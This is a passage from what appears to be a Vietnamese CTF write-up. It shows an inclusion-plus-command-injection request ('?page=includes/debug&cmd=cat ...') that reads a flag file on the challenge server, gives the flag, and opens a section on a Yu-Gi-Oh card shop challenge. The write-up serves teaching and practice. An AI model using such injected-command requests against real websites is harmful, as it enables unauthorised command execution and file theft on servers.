 ```
?page=includes/debug&cmd=cat /super_saiyan_flag.txt
```

![image-20230308144215946](./assets/image-20230308144215946.png)

**Flag: GDUCTF{C0nt3nt_1nclus10n_4s_d4ng3r0us_4s_F1l3_1nclus10n}**

## Learn Query

Giao diện trang web là một cửa hàng bán các thẻ bài Yu-Gi-Oh

![image-20230308144402648](./assets/image-20230308144402648.png)
